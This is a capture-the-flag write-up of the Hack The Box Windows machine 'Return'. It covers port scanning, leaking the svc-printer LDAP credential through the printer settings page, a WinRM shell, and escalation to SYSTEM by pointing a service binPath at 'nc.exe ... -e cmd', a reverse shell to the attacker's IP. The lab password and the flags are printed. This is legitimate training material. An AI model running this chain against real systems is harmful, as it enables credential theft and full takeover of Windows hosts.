

# Return by k0rriban

## htbexplorer report
|  Name      |  IP Address   |  Operating System  |  Points  |  Rating  |  User Owns  |  Root Owns  |  Retired  |  Release Date  |  Retired Date  |  Free Lab  |  ID   | 
| :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: |
| Return  | 10.10.11.108  | Windows            | 20       | 4.6      | 1998        | 1791        | Yes       | 2021-09-27     | 2021-09-20     | No         | 401          |

## Summary
1. Scan ports -> 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49679,49682,49694,54673
2. Fuzz port 80 -> `/settings.php`
3. Redirect settings.php update to your machine -> `svc-printer:1edFg43012!!`
4. Try creds on winrm -> `user shell` with `evil-winrm`
5. List user privileges and groups -> `Server Operators` can `start and stop services`
6. Modify `VMTools`'s `binPath` to `nc.exe` path in the machine ->  Reverse shell
7. Stop `VMTools` service and start it again -> `Administrator shell` 

## Enumeration
### OS
|  TTL      |  OS  |
| :-: | :-: |
| +- 64    | Linux |
| +- 128   | Windows |

As we can see in the code snippet below, the operating system is Windows.
```bash
❯ ping -c 1 10.10.11.108
PING 10.10.11.108 (10.10.11.108) 56(84) bytes of data.
64 bytes from 10.10.11.108: icmp_seq=1 ttl=127 time=105 ms
```

### Nmap port scan
First of all, we need to scan the victim to see what ports are open. As this is a consented operation, we will use the nmap tool with non-anonymous settings.
```bash
❯ sudo nmap -p- -sS -min-rate 5000 -Pn -n 10.10.11.160 -oG Enum/nmap.out -v
```
From the report, we can obtain the open ports:
```bash
❯ extractPorts Enum/allPorts
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: extractPorts.tmp
       │ Size: 240 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.11.108
   5   │     [*] Open ports: 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,93
       │ 89,47001,49664,49665,49666,49667,49671,49674,49675,49679,49682,49694,54673
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 
───────┴───────────────────────────────────────────────────────────────────────────
```
There are lots of ports, but those over 10000 are probably not useful. 
Next step is to enumerate the services running on each port:
```bash
❯ nmap -sC -sV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49679,49682,49694,54673 10.10.11.108 -oN targeted
❯ cat Enum/targeted
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: Enum/targeted
       │ Size: 2.5 KB
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.92 scan initiated Wed Jun  1 10:21:13 2022 as: nmap -sC -sV -p53,
       │ 80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49
       │ 666,49667,49671,49674,49675,49679,49682,49694,54673 -oN targeted 10.10.11.
       │ 108
   2   │ Nmap scan report for 10.10.11.108
   3   │ Host is up (0.22s latency).
   4   │ 
   5   │ PORT      STATE SERVICE       VERSION
   6   │ 53/tcp    open  domain?
   7   │ 80/tcp    open  http          Microsoft IIS httpd 10.0
   8   │ |_http-server-header: Microsoft-IIS/10.0
   9   │ | http-methods: 
  10   │ |_  Potentially risky methods: TRACE
  11   │ |_http-title: HTB Printer Admin Panel
  12   │ 88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 202
       │ 2-06-01 08:39:57Z)
  13   │ 135/tcp   open  msrpc         Microsoft Windows RPC
  14   │ 139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
  15   │ 389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Dom
       │ ain: return.local0., Site: Default-First-Site-Name)
  16   │ 445/tcp   open  microsoft-ds?
  17   │ 464/tcp   open  kpasswd5?
  18   │ 593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
  19   │ 636/tcp   open  tcpwrapped
  20   │ 3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Dom
       │ ain: return.local0., Site: Default-First-Site-Name)
  21   │ 3269/tcp  open  tcpwrapped
  22   │ 5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
  23   │ |_http-server-header: Microsoft-HTTPAPI/2.0
  24   │ |_http-title: Not Found
  25   │ 9389/tcp  open  mc-nmf        .NET Message Framing
```

#### Final nmap report
| Port | Service | Version | Extra |
| :-: | :-: | :-: | :-: |
| 53   | domain? | - | - |
| 80   | http          | Microsoft IIS httpd 10.0 | - |
| 88   | kerberos-sec  | Microsoft Windows Kerberos | (server time: 202 2-06-01 08:39:57Z) |
| 135  | msrpc         | Microsoft Windows RPC | - |
| 139  | netbios-ssn   | Microsoft Windows netbios-ssn | - |
| 389  | ldap          | Microsoft Windows Active Directory LDAP | (Domain: return.local0., Site: Default-First-Site-Name) |
| 445  | microsoft-ds? | - | Possible SMB |
| 464  | kpasswd5?     | - | - |
| 593  | ncacn_http    | Microsoft Windows RPC over HTTP 1.0 | - |
| 636  | tcpwrapped    | - | - |
| 3268 | ldap          | Microsoft Windows Active Directory LDAP | (Domain: return.local0., Site: Default-First-Site-Name) |
| 3269 | tcpwrapped    | - | - |
| 5985 | http          | Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) | - |
| 9389 | mc-nmf        | .NET Message Framing | - |

### SMB Enumeration
First, let's try to enumerate SMB services with `crackmapexec`:
```bash
❯ crackmapexec smb 10.10.11.108
SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
```
From where we obtain the name `PRINTER` over a x64 Windows 10. As SMB service is up, let's try anoymous connection:
```bash
❯ smbclient -L 10.10.11.108 -N
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
SMB1 disabled -- no workgroup available
```
We succesfully obtained anonymous connection, but file listing returned nothing, so the directory is empty for anonymous user.

### HTTP enumeration
In this section we will enumerat the services using the HTTP protocol.
```bash
❯ cat Enum/targeted | grep "http "
80/tcp    open  http          Microsoft IIS httpd 10.0
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
```
Now, we must enumerate these services looking for any hidden creds or other interesting information.

#### Port 80
##### Whatweb
```bash
❯ whatweb 10.10.11.108
http://10.10.11.108 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.11.108], Microsoft-IIS[10.0], PHP[7.4.13], Script, Title[HTB Printer Admin Panel], X-Powered-By[PHP/7.4.13]
```
With wappalyzer, we can obtain the following information:
| Technology | Version | Detail |
| :-: | :-: | :-: |
| HTTPServer | Microsoft-IIS/10.0 | - |
| PHP | 7.4.13 | - |
| OS | Windows Server|

##### wfuzz
With wfuzz we can bruteforce the pages we have access to as well as subdomains. Since we don't know the domain name of the macine, we can't fuzz subdomains.
```bash
❯ wfuzz -c -t 200 --hc 404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hh 28274 "http://10.10.11.108/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.108/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000016:   301        1 L      10 W       150 Ch      "images"          
000000203:   301        1 L      10 W       150 Ch      "Images"          
000003673:   301        1 L      10 W       150 Ch      "IMAGES"   
```
Opening http://10.10.11.108 int a url, it redirects us to `/index.php` meaning we should fuzz the `.php` pages accessible:
```bash
❯ wfuzz -c -t 200 --hc 404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hh 28274 "http://10.10.11.108/FUZZ.php"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.108/FUZZ.php
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000001805:   200        1375 L   2855 W     29090 Ch    "settings"   
000038901:   200        1375 L   2855 W     29090 Ch    "SETTINGS"
```

### /settings.php
We discovered the page `/settings.php` which contains the following information:

From where we see a password field we could read if we change the `type` attribute from `password` to `text`. The password field has this structure:
```html
<input type="text" value="*******">
```
This means the password is actually a `text field` with `*******` as value. We can't obtain any password. Anyway, we can see a username `svc-printer` and a server port `389`.
Also, notice we are at an update form, targeted at `printer.return.local`, and this field is editable, so we can try to change the `server field` to our IP Address and listen with netcat:
- Web Browser:

- Terminal: 
```bash
❯ sudo nc -nlvp 389
Connection from 10.10.11.108:51299
0*`%return\svc-printer
                      1edFg43012!!
```
As we can see, it returned the credentials `svc-printer:1edFg43012!!`. Let's try these credendtials on SMB service:
```bash
❯ crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
```
The credentials are valid for the domain `return.local`, so we can try to connect to the printer's SMB:
```bash
❯ smbclient -L \\\\10.10.11.108\\ -U='svc-printer'%'1edFg43012!!'
Can\'t load /etc/samba/smb.conf - run testparm to debug it

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```
We listed the shared folders, and after trying to list them, we discover we don't have access to anyone.

### evil winrm
As we are attacking a windows machine and we have credentials, we can test its vulnerability on `winrm` with `crackmapexec`:
```bash
❯ crackmapexec winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
SMB         10.10.11.108    5985   PRINTER          [*] Windows 10.0 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.10.11.108    5985   PRINTER          [*] http://10.10.11.108:5985/wsman
WINRM       10.10.11.108    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```
As we obtained the result `Pwn3d!` for WINRM, this means it is vulnerable to evil winrm:
```bash
❯ evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
```
We obtained a user shell on the machine as `svc-printer`.

## Privilege escalation
Now, we can upload `winpeas.exe` to the machine to enumerate all the privesc vulns it has. We enumerated previously the machine as `Windows 10 x64`, so we need to upload as:
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload /home/r3van/HTB/Tools/winPEASx64_ofs.exe .
Info: Uploading /home/r3van/HTB/Tools/winPEASx64_ofs.exe to .
Data: 2397524 bytes of 2397524 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc-printer\Documents> ./winPEASx64_ofs.exe
```
From the output of the program we can see:
- Computer name: `PRINTER`
- Username: `svc-printer`
- SystemDrive: `C:\`
- TMP folder: `C:\Users\SVC-PR~1\AppData\Local\Temp`
- Firewall status: `Disabled`
- AV status: `Not installed`
- LAPS status: `Disabled`
- Credential Guard: `disabled`
- Token privileges:
  - SeMachineAccountPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
  - `SeLoadDriverPrivilege`: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
  - SeSystemtimePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
  - `SeBackupPrivilege`: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
  - `SeRestorePrivilege`: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
  - SeShutdownPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
  - SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
  - SeRemoteShutdownPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
  - SeIncreaseWorkingSetPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
  - SeTimeZonePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED

Apart from the output of winPEAS, we can try to enumerate the user information and groups:
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/26/2021 1:39:29 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
```
The group `Server Operators` is quite interesting. Researching about its capabilities we discover the ability to start and stop services. Listing the services:
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc  
```
As `svc-printer` we are able to stop any of these services, but we can also try to create a new service:
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe create test binPath="wmpnetwk.exe"
[SC] OpenSCManager FAILED 5:

Access is denied.
```
Access denied, so we cannot create new processes, but we can try to modfiy the `binPath` of any running service:
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config VMTools binPath="C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"
[SC] ChangeServiceConfig SUCCESS
```
Acesss granted for changing, now we need to establish a reverse shell into that `binPath`. To do so, we need to upload a `nc.exe` binary to the machine, can obtain it from `seclists package`:
```bash
❯ locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
❯ cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe ~/HTB/Tools/
```
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload /home/r3van/HTB/Tools/nc.exe .
Info: Uploading /home/r3van/HTB/Tools/nc.exe to .

                                                             
Data: 37544 bytes of 37544 bytes copied

Info: Upload successful!
```
And now we have the binary `nc.exe` located at `C:\Users\svc-printer\Documents\nc.exe` and we can try to assign it to binPath:
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe 10.10.16.5 3333 -e cmd"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop VMTools 

SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start VMTools
```
And if we listen on port 3333, we can establish a reverse shell:
```bash
❯ nc -nlvp 3333
Connection from 10.10.11.108:57167
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
 whoami
nt authority\system
```
We obtained a root shell (Administrator).

## CVE
No CVEs were used in this machine.

## Machine flag
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | b870f48a1d2afb796af51c64c9a26969 | No | 01-06-2022|
| Root | 5184c7326d77b4a81638b45c40b65e29 | No | 01-06-2022|

## References
- https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators

